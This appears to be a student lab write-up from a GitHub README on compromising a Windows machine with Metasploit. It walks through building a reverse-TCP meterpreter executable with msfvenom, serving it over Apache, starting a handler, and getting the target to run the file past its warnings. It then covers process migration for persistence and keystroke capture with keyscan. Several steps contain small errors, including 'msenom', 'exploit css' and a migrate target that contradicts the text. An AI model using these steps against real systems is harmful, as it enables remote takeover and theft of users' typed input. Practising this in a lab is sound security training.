 # Compromising-windows-using-Metasploit
# AIM:
To Compromise windows using Metasploit .
## DESIGN STEPS:

- `Step 1:` Install kali linux either in partition or virtual box or in live mode
- `Step 2:` Investigate on the various categories of tools as follows:
- `Step 3:` Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

![6 1](https://github.com/SaiPraneeth04/Compromising-windows-using-Metasploit/assets/119390353/d0fb2e65-1527-4762-8c0f-0e034dec3c88)


Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe.

![6 2](https://github.com/SaiPraneeth04/Compromising-windows-using-Metasploit/assets/119390353/25078038-f918-4e56-bf18-0a5abcd6718e)


copy the fun.exe into the apache /var/www/html folder

![6 3](https://github.com/SaiPraneeth04/Compromising-windows-using-Metasploit/assets/119390353/34b9be7a-dfe5-47f9-bc61-df1d7381c1c2)


Start apache server sudo systemctl apache2 start

![6 4](https://github.com/SaiPraneeth04/Compromising-windows-using-Metasploit/assets/119390353/0ea399d6-92f2-4e2d-b475-60eeb4af1e06)


Check the status of apache2

1

Invoke msfconsole:
msfconsole

![6 5](https://github.com/SaiPraneeth04/Compromising-windows-using-Metasploit/assets/119390353/74e2edea-0d91-4231-b8e6-018d5e9c5e97)


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![6 6](https://github.com/SaiPraneeth04/Compromising-windows-using-Metasploit/assets/119390353/5d3d17d8-1fd5-4294-829c-bb0537179e37)


Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit css

![6 7](https://github.com/SaiPraneeth04/Compromising-windows-using-Metasploit/assets/119390353/495e2474-3793-4ad3-82f4-dd78507e3d32)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![6 8](https://github.com/SaiPraneeth04/Compromising-windows-using-Metasploit/assets/119390353/c55612a8-f6aa-4da3-a2d4-8f965bb84fbf)

Bypass any warning boxes, double-click the file, and allow it to run.

![6 9](https://github.com/SaiPraneeth04/Compromising-windows-using-Metasploit/assets/119390353/9c88a83e-15af-4fd9-ba5b-42304560f01b)


On kali give the command exploit

![6 10](https://github.com/SaiPraneeth04/Compromising-windows-using-Metasploit/assets/119390353/dd924c1b-4bd9-499b-ae28-575ed0c1693b)


To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![6 11](https://github.com/SaiPraneeth04/Compromising-windows-using-Metasploit/assets/119390353/4637aaf1-84c8-404c-92f2-2a802390ad95)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command: migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted.

![6 12](https://github.com/SaiPraneeth04/Compromising-windows-using-Metasploit/assets/119390353/a242c2d0-2800-4d13-a45e-163077a92ab6)


Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.





![6 13](https://github.com/SaiPraneeth04/Compromising-windows-using-Metasploit/assets/119390353/bad43c3e-1687-44b7-a9f2-cba451835018)

![6 14](https://github.com/SaiPraneeth04/Compromising-windows-using-Metasploit/assets/119390353/ab150802-eb0e-4eae-a034-eaf8a99467fa)



keyscan_dump Shows the keystrokes captured so far.


![6 15](https://github.com/SaiPraneeth04/Compromising-windows-using-Metasploit/assets/119390353/57cf659b-0eea-4a72-acb3-9ef092fd8f74)



## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
